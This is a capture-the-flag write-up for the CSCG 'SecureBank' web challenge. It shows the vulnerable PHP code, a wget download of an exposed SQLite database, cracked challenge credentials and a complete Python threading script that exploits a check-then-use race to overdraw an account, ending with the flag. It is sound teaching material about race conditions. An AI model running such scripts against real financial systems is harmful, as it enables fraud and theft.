




# Writeup for SecureBank

| Category        | Author         | Points   | Solves (junior) | Difficulty rating |
| -------------   | -------------  | ------   | ------          |  ----- |
| web          | FF9680E59F9B           | 200ish      | ?               | Medium |


## Preface

In this challenge we exploit a web application leaking its database and

a race condition to gain unlimited funds. The description reads `SecureBank has released a beta of their new banking portal. Can you take a look and see if it is secure?.`

We get the whole source code of the application.

## Application structure

Before starting I would advise you to at least familiarize yourself with the code partly so that you can follow and understand the general structure of the application. I will show the most important code snippets but not go over each line of code

Looking at the general structure of the project, it is rather simple. It has the web endpoints login,account info,transfer,promotion and logout. All of them are mostly self explaining. The application allows for users to log in, view their accounts (one user may have multiple bank accounts)
and issue transactions to other accounts. The promotion page grants a gift when the savings account
of a user reaches 25 EUR or more. User credentials, account info and transactions are stored in one
database,bank.db. Initially we are given an empty database, thus no valid credentials.

## Getting creds

When looking at the/srcdirectory, we can see thatbank.db, the database used for storing credentials
and transfers, lies in the same directory as index.php and from
src/includes/functions.php:

```php
1 <?php
2 function open_db()
3 {
4 $db = new SQLite3('bank.db');
5 $db->busyTimeout(12000);
6 //$db->open('bank.db');
7 return $db;
8 }
9
10 function get_logged_in_user()
11 {
12 if (!empty($_SESSION['username'])) {
13 return $_SESSION['username'];
14 }
15 return null ;
16 }
```
It looks like the db is loaded from a relative path. Lets just try to request the database directly:

```terminal
1 user@lnx:~$ wget https://c4082e88e096cb645cfd3d15-securebank.challenge.
master.cscg.live:31337/bank.db
2 --2022-05-30 15:53:39-- https://c4082e88e096cb645cfd3d15-securebank.
challenge.master.cscg.live:31337/bank.db
3 Aufloesen des Hostnamens c4082e88e096cb645cfd3d15-securebank.challenge.
master.cscg.live (c4082e88e096cb645cfd3d15-securebank.challenge.
master.cscg.live)...147.75.32.185, 2604:1380:2000:2600::
4 Verbindungsaufbau zu c4082e88e096cb645cfd3d15-securebank.challenge.
master.cscg.live (c4082e88e096cb645cfd3d15-securebank.challenge.
master.cscg.live)|147.75.32.185|:31337...verbunden.
5 HTTP-Anforderung gesendet, auf Antwort wird gwaited sheesh...200 OK
6 Laenge: 32768 (32K)
7
8 bank.db
100%[================================================>] 32,00K
--.-KB/s in 0,03s
9
10 user@lnx:~$
```
Alright. We really just could access the database from the web root. Lets look at whats in the database,
using https://inloop.github.io/sqlite-viewer/




Now lets use another online service (https://crackstation.net/) to crack the hash because we are lazy:



Armed with the valid login credentialsjohn:johndoewe can now proceed.


## Exploiting the race condition
The first thing I did was look for a sink that could give me the flag. Since the database does not contain
it, we can conclude that we dont have to perform an sql injection. It became apparent when looking at
/src/include/promo.php

```php
1 <h3>Promotion</h3>
2 <p>If your savings account reaches 25 euro or more you receive a free
gift. Visit this page after you have saved 25 euro to claim your
gift.</p>
3
4 <?php
5 $db = open_db();
6 $stmt = $db->prepare("SELECT balance FROM accounts WHERE name ='
Savings account' AND client = :username;");
7 $stmt->bindValue(':username', get_logged_in_user(), SQLITE3_TEXT);
8 $balance = $result = $stmt->execute()->fetchArray(SQLITE3_ASSOC)["
balance"];
9
10 if ($balance >= 2500):
11 ?>
12 <h3>Your gift</h3>
13 <p>Congratulations! You have saved 25 euro. Your gift code is <b><?=
$_ENV["PROMOCODE"] ?></b></p>
14 <?php
15 endif;
```
“a free gift”, sounds good. Lets try to increase our balance to 25 out of nothing. Lets first log in and look
at the users current bank accounts and balance:



Seems like we have two accounts with a total balance of 20 EUR. 5 EUR short of getting the flag, very
unfortunate. The transfer page looks interesting. Lets look at the code that gets executed after the
amount and source and destination account are validated, as this is the code of interest:

src/includes/transfer.php:

```php
1 $db = open_db();
2 $stmt = $db->prepare("SELECT * FROM accounts WHERE account_number =
:destination_account_number;");
3 $stmt->bindParam(':destination_account_number', $_POST["destination
"], SQLITE3_TEXT);
4 $result = $stmt->execute();
5 **if** (empty($result->fetchArray())) {
6 **return** "Destination account doesn't exist";
7 }
8
9 $amount = floor($_POST["amount"] * 100);
10
11 $stmt = $db->prepare("SELECT balance FROM accounts WHERE
account_number = :source_account_number;");
12 $stmt->bindParam(':source_account_number', $_POST["source"],
SQLITE3_TEXT);
13 $result = $stmt->execute();
14 $current_balance = $result->fetchArray(SQLITE3_ASSOC)["balance"];
15 **if** ($current_balance < $amount) {
16 **return** "Insufficient funds";
17 }
18 $db->close();
19
20 $source_account_number = $_POST["source"];
21 $destination_account_number = $_POST["destination"];
22 $timestamp = time();
23 $hash = $amount. $source_account_number.
$destination_account_number. $timestamp;
24 **for** ($i = 0; $i < 3000000; $i++) {
25 $hash = sha1($hash);
26 }
27
28 $db = open_db();
29 $stmt = $db->prepare("INSERT INTO transactions (amount,
source_account_number, destination_account_number, timestamp,
hash)
30 VALUES (:amount, :source_account_number, :
destination_account_number, :timestamp, :hash)");
31 $stmt->bindParam(':amount', $amount, SQLITE3_INTEGER);
32 $stmt->bindParam(':source_account_number', $source_account_number,
SQLITE3_TEXT);
33 $stmt->bindParam(':destination_account_number',
$destination_account_number, SQLITE3_TEXT);
34 $stmt->bindParam(':timestamp', $timestamp, SQLITE3_INTEGER);
35 $stmt->bindParam(':hash', $hash, SQLITE3_TEXT);
36 $stmt->execute();
37
38 $new_balance = $current_balance - $amount;
39 $stmt = $db->prepare("UPDATE accounts SET balance=:balance WHEREaccount_number = :account_number");
40 $stmt->bindParam(':balance', $new_balance, SQLITE3_INTEGER);
41 $stmt->bindParam(':account_number', $_POST["source"], SQLITE3_TEXT)
;
42 $stmt->execute();
43
44 $stmt = $db->prepare("UPDATE accounts SET balance=balance + :amount
WHERE account_number = :account_number");
45 $stmt->bindParam(':amount', $amount, SQLITE3_INTEGER);
46 $stmt->bindParam(':account_number', $_POST["destination"],
SQLITE3_TEXT);
47 $stmt->execute();
48
49 return "";
50 }
```
Looking at this we notice some important things:
1. All sql statements are properly secured. So SQL Injection does not seem possible
2. Line 14: we extract the senders current balance
3. Line 23-26: we calculate a hash of the transaction
4.Line 38-39: the current balance is recalculated via subtracting the send amount from the previously
extractedcurrent_balanceand then inserted back into the database in line 42
We can see a very typical race condition pattern here. The time of check differs from the time of use,
and no locks are applied. In this case, the check happens in line 14, where the application checks the
users current balance. This value is then used much later in the code in line 42, without a guarantee
that this value still reflects reality.
Lets imagine a scenario where a user makes two requests in parallel and the application supports
multithreading. Lets say the requests arrive with some small delay and both requests want to start
a transfer of 5 EUR from an account that has exactly 5 EUR. When the first thread handling the first
requests arrives at line, lets say 20, the second thread may reach line 14, because of the delay. Now
both threads essentially “think” that the user still has 5 EUR left in his account and will both send
exactly 5 EUR to the destination account. We end up in a situation where we just transferred 10 EUR
from an account that has only 5 EUR in it. This is of course scalable. Lets try this on our target.

## Executing the attack

It is important to note, that php will use one thread per session in this case. If we want to trigger the
race condition, we have to create multiple sessions where we can send requests in parallel. Lets build
code that authenticates the user and returns the session id:

```python
1 import requests
2
3 chal = 'https://553e4b5169de45d011a9ee21-securebank.challenge.master.
cscg.live:31337/'
4
5
6 def get_session():
7 data = {'username':'john','password':'johndoe'}
8 c = requests.get(chal).cookies['PHPSESSID']
9 cookies = {'PHPSESSID':c}
10 requests.post(chal+'index.php?page=login',data=data,cookies=cookies
)
11 print(f'session: {cookies}')
12 return cookies
```
easy. We just authenticate with a post request and get a session cookie back. Now we need to initiate
a transfer. Looking back at the screenshot from the account info page, we can see that we have two
accounts. We can take all the required parameters for an transaction from there and use the html at
the end of /src/includes/transfer.php to verify the required form parameters:

```html
1 <div style="color: red"><?=$alert ?></div>
2 <div style="color: green"><?=$success ?></div>
3 <form method="POST">
4 <div class ="mb-3">
5 < label for ="source" class ="form-label">Transfer from</ label >
6 <select name="source">
7 <?php foreach (get_account_numbers_for_current_user() as
$account_number): ?>
8 <option value="<?=$account_number ?>"><?=$account_number
?></option>
9 <?php endforeach; ?>
10 </select>
11 </div>
12 <div class ="mb-3">
13 < label for ="destination" class ="form-label">Transfer to</ label >
14 <input class ="form-control" name="destination">
15 </div>
16 <div class ="mb-3">
17 < label for ="amount" class ="form-label">Amount (EUR)</ label >
18 <input class ="form-control" name="amount" placeholder="0.00">
19 </div>
20 <input type="submit" class ="btn btn-primary" value="Transfer">
21 </form>
```

With the parameters in mind, we can create this python function that initiates a transfer from our
transaction account to the savings account:

```python
1 def transfer(n):
2
3 data = {'source':'EU42SECB00051380016',
4 'destination':'EU88SECB00051380017',
5 'amount':n}
6
7 g = lambda : requests.post(chal+'?page=transfer',cookies=
get_session(),data=data)
8
9 Thread(target=g).start()
```
We use threading here to make the function non blocking and return immediately. Putting everything
together, we now need to call the transfer function in succession with n=5 EUR, so that we may transfer
more money then we actually have in our savings account. Lets put the whole script together

```python
1 import requests
2 from threading import Thread
3
4 chal = 'https://d583fc101b2bd13851584d19-securebank.challenge.master.
cscg.live:31337/'
5
6
7 def get_session():
8 data = {'username':'john','password':'johndoe'}
9 c = requests.get(chal).cookies['PHPSESSID']
10 cookies = {'PHPSESSID':c}
11 requests.post(chal+'index.php?page=login',data=data,cookies=cookies
)
12 print(f'session: {cookies}')
13 return cookies
14
15 def transfer(n):
16
17 data = {'source':'EU42SECB00051380016',
18 'destination':'EU88SECB00051380017',
19 'amount':n}
20
21 g = lambda : requests.post(chal+'?page=transfer',cookies=
get_session(),data=data)
22
23 Thread(target=g).start()
24
25 for _ in range(4):
26 transfer(5)
```
In the last two lines we initiate a transaction of 5 EURO 4 times in quick succession. Lets fire the exploit
and hope the time window is big enough!



It surely was! The time window between the time of check and the time of use was really big enough
for us to do four transactions of all of our transaction funds. Lets visit the promo page and grab that
free gift! And we got the flag!CSCG{Inf1niteMon3y}